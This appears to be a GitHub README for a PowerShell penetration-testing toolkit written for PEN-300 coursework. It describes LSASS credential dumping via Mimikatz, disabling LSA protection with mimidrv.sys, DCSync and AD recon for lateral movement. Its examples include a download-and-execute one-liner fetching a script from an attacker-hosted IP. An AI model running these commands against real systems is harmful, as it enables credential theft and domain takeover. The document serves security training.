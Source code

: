 # osep_pwntools
Bespoke tooling for PEN-300 coursework

## pwn.ps1
This PowerShell utility script enumerates common host-based restrictions, such as whether LSA protection is disabled or AppLocker restrictions are in place.
If the system is domain-joined, the `adrecon` function is a wrapper utility for quick PowerView-based insights that can provide context for lateral movement opportunities.
The `getcreds` function is a wrapper utility for `Out-Minidump.ps1` and `Invoke-Mimikatz.ps1`, and can dump process memory from LSASS and parse out local credentials. If the `-lsa` flag is specified, it will load `mimidrv.sys` in order to remove this protection first. If the user has DCSync privileges it will also attempt to obtain them, as well as any trust link hashes.

This tool has been designed to be as fault-tolerant as possible, providing conditional checks for whether both the system and the user are domain-joined or not. To overcome the Kerberos "double-hop" problem with LDAP requests over WinRM, the script will attempt to create a PSCredential object for non-SYSTEM users in order to supply it with the embedded PowerView commands. I am not an expert programmer and provide no warranties that this script will work for you out of the box.

**Note:** The `-ipaddress` specifies your IP address where the dependency scripts are being hosted (assumed on TCP/80). Use the `-port` option to specify a different port.
#### Examples

```powershell
iex(iwr 192.168.22.121/pwn.ps1 -usebasicparsing)
adrecon -ipaddress LHOST_IP

getcreds -ipaddress LHOST_IP
getcreds -ipaddress LHOST_IP -lsa
```

## pwn_dev.ps1

Certain downstream AD enumerations fail if a PS Credential object is not properly created. This script is more permissive than pwn.ps1 but less fault tolerant.
